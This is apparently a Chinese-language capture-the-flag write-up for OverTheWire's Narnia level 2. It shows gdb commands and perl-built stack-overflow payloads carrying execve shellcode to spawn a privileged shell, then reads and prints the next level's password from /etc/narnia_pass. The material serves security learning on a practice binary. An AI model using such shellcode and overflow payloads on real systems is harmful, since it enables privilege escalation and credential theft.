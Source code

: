 ### 解題思路

首先透過find_offset.py 找到正確的offset
另外，shellcode 都用 http://shell-storm.org/shellcode/files/shellcode-606.html
這個是 execve("/bin/bash",["/bin/bash","-p"],NULL), 如果沒有-p 沒有辦法提權。具體爲什麽我真的不理解
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
![alt text](image.png)
```bash
1. gdb -q narnia2
2. set disassembly-flavor intel
3. disas main
4. b *0x080491d7
5. run $(perl -e 'print "\x90"x104 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"  . "\xe8\xd5\xff\xff"')

```
![alt text](image-1.png)
覆寫都正常，也沒有canary protection, 但是失敗。
原因是這個shellcode 有四個push, push eax,ebx,ecx,edx 因此shellcode 破壞了自己本身。
我們要做的事預留16個bytes 的空位

```bash
6. run $(perl -e 'print "\x90"x88 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x16 . "\xe8\xd5\xff\xff"') # 這個shellcode 是 28 bytes

```
![alt text](image-2.png)
成功了！
cat /etc/narnia_pass/narnia2: 2xszzNl6uG


gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8